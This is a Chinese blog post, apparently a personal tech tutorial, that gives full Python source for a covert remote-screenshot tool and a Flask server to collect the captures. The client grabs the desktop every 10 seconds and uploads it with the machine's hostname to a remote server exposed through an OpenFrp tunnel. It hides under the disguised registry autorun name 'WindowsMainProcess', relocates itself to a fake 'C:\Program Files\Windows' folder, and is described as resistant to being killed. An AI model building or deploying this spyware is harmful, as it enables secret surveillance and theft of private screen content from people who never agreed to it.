 ```yaml
---
title: 使用 Python 实现远程截图桌面并上传到服务端
published: 2024-08-22
description: ''
image: ''
tags: ['Python', '内网穿透', 'OpenFrp']
category: '技术'
draft: false 
---
```


很早之前就想写了，前几天给实现了。

整个程序分为两部分，客户端和服务端。

### 服务端

服务端很简单，只需要用 Flask 跑个服务器，然后监听几个 api 就行了。

我具体实现的 api 就仨：upload、ban、unban，功能和他们名字一样。

```python
import os
import time
from flask import Flask, request

app = Flask(__name__)

blacklist = []

@app.route('/upload', methods=['POST'])
def upload_image():
    if 'screenshot' not in request.files:
        return '没有找到文件', 400

    file = request.files['screenshot']
    if file.filename == '':
        return '文件名称为空', 400
    client_name = request.headers.get('Client-Name')
    if client_name in blacklist:
        return 'Banned', 403

    save_path = os.path.join(os.getcwd(), 'screenshots', client_name)
    os.makedirs(save_path, exist_ok=True)

    timestamp = int(time.time())
    filename = f'{client_name}_{timestamp}.png'
    file.save(os.path.join(save_path, filename))

    return 'Uploaded', 200

@app.route('/ban/<username>', methods=['GET'])
def add_to_blacklist(username):
    blacklist.append(username)
    return f'Banned {username}', 200

@app.route('/unban/<username>', methods=['GET'])
def remove_from_blacklist(username):
    if username in blacklist:
        blacklist.remove(username)
        return f'Unbanned {username}', 200
    else:
        return f'{username} is not banned', 404

if __name__ == '__main__':
    app.run()

```

收到的图片会存在同目录下 /screenshot/用户名 文件夹下，并按时间戳保存。

对于为什么要实现 ban 和 unban 这俩 api，纯纯就是因为如果一个人长期后台跑这个我电脑磁盘扛不住。

这俩 api 用法也贼简单，浏览器访问 `/ban/<username>` 或 `/unban/<username>` 就能封禁和解封了。

### 客户端

客户端就比较麻烦了，主要是要有防杀功能。

```python
import pyautogui
import pyscreenshot
import requests
import socket
import time
import os
import tempfile
import win32com.client
import winreg
import shutil
import ctypes

def take_screenshot_and_upload(upload_url):
  image = pyscreenshot.grab()
  fd, temp_file = tempfile.mkstemp(suffix=".png")
  os.close(fd)
  image.save(temp_file)
  client_name = socket.gethostname()
  headers = {
    'Client-Name': client_name
  }
  try:
    with open(temp_file, "rb") as f:
      response = requests.post(upload_url, files={"screenshot": f}, headers=headers)
      for _ in range(5):
        try:
          os.remove(temp_file)
          break
        except PermissionError:
          print(f"无法删除 {temp_file} 文件，正在重试...")
          time.sleep(0.5)
      return response
  except requests.exceptions.ConnectionError as e:
    print(f"连接错误：{e}")
    return None

upload_url = "http://[你的服务器地址]/upload"

def set_auto_start():
  try:
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r'Software\Microsoft\Windows\CurrentVersion\Run', 0, winreg.KEY_SET_VALUE)
    winreg.SetValueEx(key, 'WindowsMainProcess', 0, winreg.REG_SZ, os.path.abspath(__file__))
    winreg.CloseKey(key)
    print(f"已设置为开机自启。")
  except Exception as e:
    print(f"设置开机自启失败：{e}")

def check_admin_rights():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

def move_to_program_files():
  try:
    script_dir = os.path.dirname(os.path.abspath(__file__))
    target_path = r'C:\Program Files\Windows'
    os.makedirs(target_path, exist_ok=True)
    for filename in os.listdir(script_dir):
      source_file = os.path.join(script_dir, filename)
      shutil.move(source_file, target_path)
    print(f"脚本和相关文件已移动到 {target_path}")
  except Exception as e:
    print(f"移动脚本和相关文件失败：{e}")

def main():
  if (not check_admin_rights()) and os.path.abspath(__file__) != r'C:\Program Files\Windows':
    print("需要管理员权限才能运行此程序！")
    os.system('pause')
    return
  if os.path.abspath(__file__) != r'C:\Program Files\Windows':
    move_to_program_files()
    set_auto_start()
  while True:
    response = take_screenshot_and_upload(upload_url)
    if response:
      print(f"上传状态码：{response.status_code}")
      print(f"上传响应：{response.text}")
    else:
      print("连接失败，将在 10 秒后重试...")
    time.sleep(10)

if __name__ == "__main__":
  main()

```

#### `take_screenshot_and_upload()`

使用 `pyscreenshot` 截图当前桌面，然后将图片临时保存到本地。

用 `requests` 上传截图，在此期间，如果网络连接速度较慢，会出现临时截图文件被占用无法删除导致程序异常退出。我的方法就是循环删除，直到能删掉（没想到更好的方法 嘻嘻

同时如果服务端没开的话也得抓一下这个异常，不然又退出了。

#### `set_auto_start()`

开机自启，需要管理员权限，故在 main 开头就得检测是否有管理员权限。但当此程序已被移动到 `C:\Program Files\Windows\` 目录下，则意味着已经设置成功，在 main 开头不需要检测权限，否则每次开机自启后都无法成功运行。

### 关于如何远程连接服务端

我采取的方案是内网穿透。用 OpenFrp 穿透一下内网服务器（默认为 127.0.0.1:5000），隧道类型选 TCP，然后会给你一串网址，例如 `example.com:1234`。然后你把客户端中 `[你的服务器地址]` 改为 `example.com:1234` 即可。

当然，如果你有域名，CNAME 类型记录一下 `example.com`，然后服务器地址后头记得加上端口 `1234` 就好了。挺简单的也。



